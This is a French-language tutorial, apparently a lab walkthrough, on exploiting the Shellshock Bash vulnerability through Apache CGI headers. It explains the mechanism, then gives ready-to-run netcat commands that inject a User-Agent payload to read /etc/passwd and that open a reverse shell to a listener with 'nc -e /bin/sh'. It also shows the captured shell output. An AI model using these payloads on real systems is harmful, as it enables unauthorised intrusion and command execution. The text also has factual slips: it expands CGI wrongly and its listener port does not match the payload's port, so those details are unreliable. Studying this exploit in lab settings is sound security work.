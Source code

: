 # CVE-2014-6271/Shellshock

Cette vulnérabilité impact BASH ( Bourne Again Shell ). BASH est rarement exposé via les applications web mais il peut être indirectement exposé via une interface CGI (Computer Graphic Interface).



Dans l’exemple ci-dessus nous remarquons que lors de l’appel de notre page web nous appelons un GET sur un CGI/Status

CGI utilise la plus part du temps Python ou Perl pour communiquer avec le serveur.

### Comment Fonctionne les CGIS ? <a href="#cve-2014-6271-shellshock-commentfonctionnelescgis" id="cve-2014-6271-shellshock-commentfonctionnelescgis"></a>

Quand nous appelons une CGI; le server web (Apache dans dans notre exemple) va démarrer un nouveau processus et appeler la CGI. Ici, le serveur va démarrer un process BASH et lancer le script CGI.

Apache a besoin de passer les informations au script CGI. Pour ce faire, il va utiliser les variables d’environnement. Ces dernières sont disponible dans le script CGI. Cela permet à Apache de passer facilement tout les Headers pour la CGI. SI nous avons un Header HTTP nommé `blah` dans notre requête, nous aurons une variable d’environnement nommé `HTTP_BLAH` dans notre CGI.

### La vulnérabilité. <a href="#cve-2014-6271-shellshock-lavulnerabilite." id="cve-2014-6271-shellshock-lavulnerabilite."></a>

La source du problème provient de la déclaration des fonction interne dans BASH. La première version de la vulnérabilité est due a la possibilité d’exécuter du code après la déclaration d’une commande.

[https://seclists.org/oss-sec/2014/q3/650](https://seclists.org/oss-sec/2014/q3/650) (pour plus d’information)

1. Déclarer la variable d’environnement en utilisant `()`
2. Ajouter un Body vide pour la fonction `{ :;};`
3. Ajouter la commande à exécuter.

### Exploitation <a href="#cve-2014-6271-shellshock-exploitation" id="cve-2014-6271-shellshock-exploitation"></a>

#### Deux manière d’exploiter : <a href="#cve-2014-6271-shellshock-deuxmanieredexploiter" id="cve-2014-6271-shellshock-deuxmanieredexploiter"></a>

#### En utilisant Proxy (Burp ou OWASP) <a href="#cve-2014-6271-shellshock-enutilisantproxy-burpouowasp" id="cve-2014-6271-shellshock-enutilisantproxy-burpouowasp"></a>

![](../.gitbook/assets/2402713610.jpg)

\=> Modification du Header `User-agent` ici la commande nous permet de lire les fichiers present dans etc/passwd

Il faudra inspecter le Header HTTP de la réponse pour voir le résultat de la playload.

#### En utilisant Netcat <a href="#cve-2014-6271-shellshock-enutilisantnetcat" id="cve-2014-6271-shellshock-enutilisantnetcat"></a>

`$ echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; echo \$(</etc/passwd)\r\nHost: VULNERABLE_HTTP \r\nConnection: close\r\n\r\n" | nc VULNERABLE_HTTP 80`

ici nous remplissons un header de la même manière en utilisant une commande Netcat sur le port 80.

### Reverse Shell <a href="#cve-2014-6271-shellshock-reverseshell" id="cve-2014-6271-shellshock-reverseshell"></a>

Nous avons besoin que le serveur se connecte a notre poste. il faudra donc d'abord ouvrir un port sur notre system. Nous voulons que le port soit ouvert sur le serveur ainsi nous allons tester les ports les plus communs :

21 (FTP), 53 (DNS), 123 (NTP), 80 (HTTP) and 443 (HTTPs)

`nc -l -p 433`

Maintenant nous avons besoin d’adapter notre playload afin que le server se connecte a notre system sur le port 443.

la playload peux être injecté soit via burpsuite en injectant via le header User-Agent soit via netcat :

`echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc 192.168.159.1 443 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc vulnerable 80`

ainsi en retournant sur notre première commande Netcat nous pouvons accéder a notre reverse shell

```
# nc -l -p 443
id
uid=1000(pentesterlab) gid=50(staff) groups=50(staff),100(pentesterlab)
```

